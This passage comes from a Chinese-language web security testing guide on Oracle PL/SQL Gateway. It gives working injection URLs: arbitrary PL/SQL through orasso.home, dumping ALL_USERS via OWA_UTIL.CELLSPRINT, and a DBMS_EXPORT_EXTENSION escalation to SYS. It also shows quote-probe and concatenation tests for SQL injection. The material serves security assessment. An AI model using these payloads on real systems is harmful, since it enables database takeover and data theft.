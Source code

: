 服务器可能会返回一个404 file not found 响应，因为```orasso.home```过程没有要求参数，但请求中有一个参数。然而，在404返回前，下列的PL/SQL会被执行：
```sql
..
..
if ((owa_match.match_pattern('orasso.home', simple_list__, complex_list__, true))) then
rc__ := 2;
else
null;
orasso.wpg_session.init();
orasso.home(FOO=>:FOO);
..
..
```

注意，攻击者查询字符串中的FOO，攻击者可以使用这种方法允许任意的SQL。首先需要将方括号括起来：```http://server.example.com/pls/dad/orasso.home?);--=BAR```

这样会导致下列PL/SQL被执行：
```
..
orasso.home();--=>:);--);
..
```

注意，在双减号后的任何字符会被认为是注释。这个请求会引起内部服务器错误，因为一个绑定变量不再有用，所以攻击者需要把他加到后面。绑定变量是运行任意PL/SQL的关键。此时我们已使用HTP.PRINT打印BAR，需要绑定变量：1例如：
```http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR```

这会返回一个含有BAR的200 ok响应。等号后的```BAR```为插入到绑定变量中的数据。使用同样的技术，可以访问```owa_util.cellsprint```:
```http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS```

可执行的SQL语句包括DML和DLL语句，攻击者插入到执行立即数到：1:

```http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual```

注意，输出不会被显示。它可能利用渗透任何属于SYS的PL/SQL注入漏洞，这样能使攻击者获得完整的后台数据库控制权。例如，接下来的URL利用了```DBMS_EXPORT_EXTENSION```中的SQL注入漏洞:
```
http://www.example.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

#### 评估自定义PL / SQL Web应用程序
在黑盒安全性评估期间，自定义PL / SQL应用程序的代码不可见，但仍需要评估其安全漏洞。

##### 测试SQL注入
应该测试每个输入参数的SQL注入缺陷。这些很容易找到和确认。找到它们就像将单引号嵌入参数中并检查错误响应（响应中包括404 Not Found错误）一样容易。可以使用串联运算符（concatenation）来确认是否存在SQL注入。

例如，假设有一个书店 PL / SQL Web应用程序，该应用程序允许用户搜索给定作者的书：

```http://www.example.com/pls/bookstore/books.search?author=DICKENS```

如果此请求返回查尔斯·狄更斯的书，但

```http://www.example.com/pls/bookstore/books.search?author=DICK'ENS```

返回错误或404，则可能存在SQL注入缺陷。可以通过使用串联运算符来确认：

```http://www.example.com/pls/bookstore/books.search?author=DICK'||'ENS```

如果此请求返回了Charles Dickens的书，则表明您已确认存在SQL注入漏洞。

```